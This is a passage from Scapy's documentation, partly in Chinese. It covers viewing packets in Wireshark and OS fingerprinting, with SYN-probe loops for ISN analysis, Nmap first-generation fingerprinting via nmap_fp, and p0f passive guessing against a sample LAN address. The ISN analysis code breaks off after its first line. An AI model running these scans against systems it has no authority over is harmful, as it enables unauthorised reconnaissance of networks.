PacketorPacketList, serialises your packets, and streams this into Wireshark viastdinas if it were a capture device.Because this usespcapformat to serialise the packets, there are some limitations:Packets must be all of the samelinktype.For example, you can’t mixEtherandIPat the top layer.Packets must have an assigned (and supported)DLT_*constant for thelinktype. An unsupportedlinktypeis replaced withDLT_EN10MB(Ethernet), and will display incorrectly in Wireshark.For example, can’t pass a bareICMPpacket, but you can send it as a payload of anIPorIPv6packet.With a filename (passed as a string), this loads the given file in Wireshark. This needs to be in a format that Wireshark supports.You can tell Scapy where to find the Wireshark executable by changing theconf.prog.wiresharkconfiguration setting.This accepts the same extra parameters astcpdump().
See also
-
A PipeTools sink for live-streaming packets.
-
Additional description of Wireshark’s functionality, and its command-line arguments.
-
For up-to-date releases of Wireshark.
-
Contains detailed information about Wireshark’s protocol dissectors, and reference documentation for various network protocols.
OS Fingerprinting
ISN
Scapy can be used to analyze ISN (Initial Sequence Number) increments to possibly discover vulnerable systems. First we will collect target responses by sending a number of SYN probes in a loop:
1 | ans, unans = srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S")) |
Once we obtain a reasonable number of responses we can start analyzing collected data with something like this:
1 | temp = 0 |
nmap_fp
Nmap fingerprinting (the old “1st generation” one that was done by Nmap up to v4.20) is supported in Scapy. In Scapy v2 you have to load an extension module first:
1 | load_module("nmap") |
If you have Nmap installed you can use it’s active os fingerprinting database with Scapy. Make sure that version 1 of signature database is located in the path specified by:
1 | conf.nmap_base |
Then you can use the nmap_fp() function which implements same probes as in Nmap’s OS Detection engine:
1 | nmap_fp("192.168.1.1",oport=443,cport=1) |
p0f
如果你已在操作系统中安装了p0f，你可以直接从Scapy中使用它来猜测操作系统名称和版本。（仅在SYN数据库被使用时）。首先要确保p0f数据库存在于指定的路径：
1 | conf.p0f_base |
For example to guess OS from a single captured packet:
1 | sniff(prn=prnp0f) |